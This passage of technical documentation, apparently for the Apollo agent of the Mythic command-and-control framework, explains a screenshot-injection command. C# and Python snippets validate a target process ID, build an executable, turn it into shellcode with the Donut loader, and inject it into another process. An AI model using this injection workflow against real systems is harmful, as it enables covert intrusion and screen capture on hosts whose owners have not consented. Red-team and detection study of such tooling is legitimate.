 - Generates unique named pipe identifier for IPC communication

#### 2. Target Process Validation
```csharp
bool pidRunning = false;
try
{
    System.Diagnostics.Process.GetProcessById(parameters.PID);
    pidRunning = true;
}
catch
{
    pidRunning = false;
}

if (!pidRunning)
{
    resp = CreateTaskResponse($"Process with ID {parameters.PID} is not running.", true, "error");
}
```
- Verifies target process exists and is running
- Uses `Process.GetProcessById()` for validation
- Provides clear error message if process not found
- Prevents injection attempts into non-existent processes

#### 3. Assembly Building and Shellcode Generation
```csharp
// Python command builder - builds ScreenshotInject.exe
shell_cmd = "dotnet build -c release -p:DebugType=None -p:DebugSymbols=false -p:Platform=x64 {}/ScreenshotInject/ScreenshotInject.csproj"

// Donut shellcode generation
command = "{} -f 1 -p \"{}\" {}".format(donutPath, taskData.args.get_arg("pipe_name"), SCREENSHOT_INJECT)
```
- Builds standalone ScreenshotInject.exe using .NET compiler
- Uses Donut loader to convert executable to position-independent shellcode
- Embeds named pipe name as parameter for IPC communication
- Optimizes build for release (no debug symbols, x64 platform)

#### 4. Process Injection Execution
```csharp
if (_agent.GetFileManager().GetFile(_cancellationToken.Token, _data.ID, parameters.LoaderStubId, out byte[] exeAsmPic))
{
    var injector = _agent.GetInjectionManager().CreateInstance(exeAsmPic, parameters.PID);
    if (injector.Inject())
    {
        _agent.GetTaskManager().AddTaskResponseToQueue(CreateTaskResponse("", false, "", 
            new IMythicMessage[] { Artifact.ProcessInject(parameters.PID, 
                _agent.GetInjectionManager().GetCurrentTechnique().Name) }));
    }
}
```
- Downloads shellcode from Mythic file system
- Creates injection instance targeting specified PID
- Executes injection using Apollo's injection manager
- Generates process injection artifact for logging
- Supports multiple injection techniques (configurable)
